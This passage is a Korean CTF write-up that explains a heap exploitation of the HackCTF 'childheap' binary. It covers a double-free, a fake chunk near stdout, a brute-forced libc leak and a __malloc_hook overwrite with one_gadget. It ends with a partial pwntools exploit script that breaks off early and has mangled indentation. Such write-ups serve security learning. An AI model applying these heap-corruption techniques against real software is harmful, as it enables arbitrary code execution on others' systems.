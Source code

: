 3. **그럼 이제 DFB를 다시 이용하여 `main_arena+88` 값을 조작한 뒤, 해당 청크를 할당받게 함**
    - 단. 그대로 stdout 주소로 박으면 안됨. 청크 구조 형태를 맞춰줘야하기 때문에 stdout-0x43 정도의 메모리를 보면 청크 구조처럼 되어있눈 부분이 있음. 이 주소를 `main_arena+88` 를 이용하여 조작해야함<br><br>

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20childheap/Untitled%2014.png)

    - DFB를 일으키기 좋은 청크를 하나더 malloc으로 생성해주고 4,0,4 순으로 해당 인덱스를 free 시킨다.
    - 우리가 원하는 건 0xb4080에 들어있는 값을 주소로하여 청크 재할당을 받는 것이다<br><br>

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20childheap/Untitled%2015.png)

    - 1번이 진행되면 0xb41160에 0xb41070이 들어간다.
    - 이제 2,3,4,가 진행되면 DFB로 0xb41070에 있는 값을 재할당 할수 있을것이다.<br><br>

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20childheap/Untitled%2016.png)

    - 현재 반복문으로 랜덤값을 돌리는 중인데 아까는 0x...75dd로 했는데 이번에는 0x..c5dd로 해봤다.
    - 하지만 두 노란색 박스의 값이 아직도 일치하지 않는다.
    - 반복문으로 에러나면 다시 실행시키는 식으로 돌리다 보면 운좋게 일치하는 경우가 생길 것이다.
    - 그렇게 된다면 Malloc() 함수가 끝나고 main에서 menu 함수 안의 puts가 실행될때 stdout 을 이용하여 leak이 일어날 것이다.<br><br><br>

4. **이를 이용하여 libc leak을 진행**

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20childheap/Untitled%2017.png)

    - 저렇게 leak이 된다. 저기 빨간줄친 부분에서 -131을 하면 stdout의 주소가 나온다 따라서 이를 이용해서 libc_base를 알 수 있다. 아니면 0x88위치에 0x7f732f07b8e0 주소가 있는데, 이는 stdin 주소로써 이를 이용해도 된다.<br><br><br>

5. **leak된 주소를 이용하여 malloc_hook을 one_gadget으로 덮음**
    - DFB를 이용해서 똑같이 이용하면 됨.

    !![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20childheap/Untitled%2018.png)

    - DFB를 이용해서 __malloc_hook을 one_gadget으로 덮었음

<br><br><br>

최종 익스코드는 다음과 같다
```python
from pwn import *

def malloc(index,size,content):
p.sendlineafter("> ","1")
p.sendlineafter("index: ",str(index))
p.sendlineafter("size: ",str(size))
p.sendafter("content: ",str(content))

def free(index):
    p.sendlineafter("> ","2")
    p.sendlineafter("index: ",str(index))


while(1):
context(arch="amd64",os="linux",log_level="DEBUG")
#p=remote("ctf.j0n9hyun.xyz",3033)
env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
p=process("./childheap",aslr="False")
    #gdb.attach(p,'code\nb *0x968+$code\n')
e=ELF("./childheap")
libc=ELF("./libc.so.6")

malloc(0,100,p64(0)*11+p64(0x71))
malloc(1,100,"A"*8)
#malloc(2,100,"B"*8+p64(0)*2+p64(0))
malloc(2,100,"B"*8+p64(0)*2+p64(0x51))
#malloc(4,100,"C"*8)
free(0)
free(1)
```